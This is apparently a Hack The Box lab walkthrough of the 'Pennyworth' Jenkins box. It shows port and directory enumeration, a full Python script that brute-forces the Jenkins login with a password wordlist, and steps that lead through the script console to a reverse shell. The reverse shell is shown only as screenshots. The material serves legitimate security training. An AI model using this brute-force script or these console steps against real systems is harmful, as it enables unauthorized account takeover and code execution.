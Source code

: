 ```yaml
---
layout: post
title: pennyworth
categories: htb
tags:
- htb
- starting_point
- pennyworth
- jenkins
author: nicoliboli
description: starting point | tier 1 | box 8
---
```


# enumeration

```
$ nmap 10.129.249.185                
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-02 09:00 EDT
Nmap scan report for 10.129.249.185
Host is up (0.099s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
8080/tcp open  http-proxy
$ nmap -sC -sV -p 8080 10.129.249.185
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-02 09:11 EDT
Nmap scan report for 10.129.249.185
Host is up (0.10s latency).

$ nmap -p- --min-rate=1000 10.129.249.185
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-02 09:01 EDT
Nmap scan report for 10.129.249.185
Host is up (0.100s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 69.39 seconds

PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.39.v20210325)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.22 seconds
```

## port 8080

visit the home page with burp running and a proxy setup

![penny_home](/assets/img/penny_home.png)

also look at what `wappanalyzer` has to say about what's running

![penny_wapp](/assets/img/penny_wapp.png)

so we know that we are dealing with a site that uses java, jetty (v9.4.39), and jenkins. run gobuster to see if there are any interesting directories

```
$ gobuster dir -u http://10.129.249.185:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -b 403
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.249.185:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   403
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 200) [Size: 2028]
/signup               (Status: 404) [Size: 8211]
/assets               (Status: 302) [Size: 0] [--> http://10.129.249.185:8080/assets/]
/logout               (Status: 302) [Size: 0] [--> http://10.129.249.185:8080/]
/error                (Status: 400) [Size: 6241]
/git                  (Status: 302) [Size: 0] [--> http://10.129.249.185:8080/git/]
/oops                 (Status: 200) [Size: 6503]
/cli                  (Status: 302) [Size: 0] [--> http://10.129.249.185:8080/cli/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```

visit the `oops` uri and get the following

![penny_oops](/assets/img/penny_oops.png)

so now i know that the version of jenkins is 2.289.1. googled a bit and found that `admin` is a default account. try logging in with `admin:admin`, but get an error

![penny_invalid_login](/assets/img/penny_invalid_login.png)

# exploitation

didn't really see anything exploit-wise based on the version of jenkins, so i tried to bruteforce the login. i looked at what was happing in `burp` during login and created a python script that sent requests with that same information. i used the session functionality of requests because when i didn't, the `JSESSIONID` cookie didn't populate. i'm not showing the testing that i did, but i always test just one username/password combo and compare, in `burp`, the python requests generated one to the actual request

![penny_login_burp](/assets/img/penny_login_burp.png)

the username `admin` gave me nothing, so i thought maybe `root` might pop something and thankfully it did

```
$ cat req.py          
import sys
import requests
import argparse
from random import randrange
from bs4 import BeautifulSoup

proxy = { "http" : "http://127.0.0.1:8080" }

parser = argparse.ArgumentParser(epilog="ex: python {} -u http://10.129.249.185:8080 -U admin".format(sys.argv[0]))

parser.add_argument('-u', '--url', required=True, help='url')
parser.add_argument('-U', '--username', required=True, help='username')
args = parser.parse_args()

passwords = []
with open("/usr/share/wordlists/rockyou.txt", "rb") as f:
    passwords = f.readlines()

for password in passwords:
    data = { "j_username" : args.username,
            "j_password" : password.decode().strip(),
            "from" : "",
            "Submit" : "Sign in"}

    s = requests.Session()
    s.get(args.url, proxies=proxy)
    r = s.post("{}/j_spring_security_check".format(args.url), data=data, proxies=proxy)
    if r.text.find("Invalid username or password") == -1:
        print("[*] password found!")
        print("[+] {} : {}".format(args.username, password.decode().strip()))
        break

$ python3 req.py -u http://10.129.249.185:8080 -U root 
[*] password found!
[+] root : password
```

![penny_dashboard](/assets/img/penny_dashboard.png)

i had some time to read about jenkins by this point and found [this](https://blog.orange.tw/posts/2019-01-hacking-jenkins-part-1-play-with-dynamic-routing/) post particularly helpful when looking for direction. the jenkins [documentation](https://www.jenkins.io/doc/book/managing/script-console/) gave some good insight too. since i have `Administrator` permissions, i can access the script console and do quite a bit 

![penny_jenkins_docs](/assets/img/penny_jenkins_docs.png)

access the script console at `/script` and see if i can read files via the cmds in the documentation. then see if i can execute code via OrangeTsai's full-access scenario

![penny_shadow](/assets/img/penny_shadow.png)

![penny_uname](/assets/img/penny_uname.png)

had to play around with the reverse shell a bit, but got it with the help of [hacktricks](https://cloud.hacktricks.wiki/en/pentesting-ci-cd/jenkins-security/jenkins-rce-with-groovy-script.html)

![penny_script_revshell](/assets/img/penny_script_revshell.png)

![penny_flag](/assets/img/penny_flag.png)